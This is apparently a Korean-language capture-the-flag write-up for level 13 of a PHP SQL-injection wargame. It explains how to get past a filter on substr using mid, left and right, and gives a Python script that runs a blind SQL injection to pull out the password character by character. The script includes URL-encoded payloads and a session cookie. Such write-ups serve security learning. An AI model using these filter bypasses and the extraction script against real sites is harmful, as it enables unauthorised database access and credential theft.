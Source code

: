 <img width="145" alt="스크린샷 2020-01-11 오후 6 05 40" src="https://user-images.githubusercontent.com/54495632/72201969-81c67c00-349d-11ea-9c69-874cbd4fe2c8.png">

Lv 13.

<img width="842" alt="스크린샷 2020-01-11 오후 6 05 45" src="https://user-images.githubusercontent.com/54495632/72201970-84c16c80-349d-11ea-828a-65a4ffeb1aa6.png">

$pw = $_GET['pw'];
  if(preg_match('/play|_|\.|\(|\)|info/i', $pw)){ exit("Nope !!");}
  if(preg_match('/substr/i', $pw)){ exit("Query is filtered :(");}

필터링 조건에서 substr이 생겼다.
substr이 필터링되는 경우 mid 함수로 대체 할 수 있다.

mid(문자열,index위치, 문자열 길이) 사용 결과와 파라미터 값은 substr과 동일하다.

mid 함수도 필터링되는 경우

left(문자열, 문자열 길이) - 왼쪽부터 길이만큼 출력

right(문자열,문자열 길이)- 오른쪽부터 길이만큼 출력

다음과 같은 함수로 대체할 수 있는데

substr(pw,2,1) 같은 형태는 left(right(pw,2),1) , right(left(pw,2),1) 과 같은 형태로 해결할 수 있다.

이 문제에선 mid를 사용하고자 한다.

<img width="785" alt="스크린샷 2020-01-11 오후 6 11 30" src="https://user-images.githubusercontent.com/54495632/72201998-d964e780-349d-11ea-9d4a-081dd8c01dde.png">

그 전에 우선 다음과 같이 pw의 길이를 구했다.

<img width="775" alt="스크린샷 2020-01-11 오후 6 11 41" src="https://user-images.githubusercontent.com/54495632/72202005-e255b900-349d-11ea-91fb-b5d5536bd051.png">

pw 길이가 8

<img width="266" alt="스크린샷 2020-01-11 오후 6 13 15" src="https://user-images.githubusercontent.com/54495632/72202053-509a7b80-349e-11ea-96d8-6ef092eb24d2.png">

P@Ssw0rd

다음과 같은 코드를 통해 pw를 찾았다.

import requests

cookies={'PHPSESSID':'55u9gmc98r1hrdgmohnr0upf75'}
url="http://crackus.jeju.kr/chall13.php?"

pw=""
for i in range(1,9):
    for j in range(33,128):

        query="pw=%27or+ascii%28mid%28pw%2C"+str(i)+"%2C1%29%29%3D"+str(j)+"%23"
        geturl=url+query
        res=requests.get(geturl,cookies=cookies)
        if((res.text).find("Good J0b :)")>0):
            pw+=chr(j)
            print (pw)
            break

print ("finish pw :"+pw)


<img width="518" alt="스크린샷 2020-01-11 오후 6 15 55" src="https://user-images.githubusercontent.com/54495632/72202061-6f990d80-349e-11ea-9de4-5073ae994050.png">

<img width="721" alt="스크린샷 2020-01-11 오후 6 16 01" src="https://user-images.githubusercontent.com/54495632/72202063-7293fe00-349e-11ea-86c4-5243210430ef.png">
